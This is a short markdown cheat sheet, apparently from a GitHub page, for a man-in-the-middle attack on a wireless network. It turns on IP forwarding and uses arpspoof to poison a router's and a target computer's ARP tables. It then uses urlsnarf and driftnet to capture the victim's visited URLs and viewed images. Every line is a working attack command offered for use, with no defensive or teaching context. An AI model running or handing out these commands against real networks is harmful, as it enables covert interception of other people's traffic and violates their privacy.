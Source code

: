 ## ARP Spoof MITM 
- echo 1 > /proc/sys/net/ipv4/ip_forward
- arpspoof -i wlan0 -t <router> <computer>

## capture urls 
- urlsnarf -i wlan0
## capture images
- driftnet -i wlan0
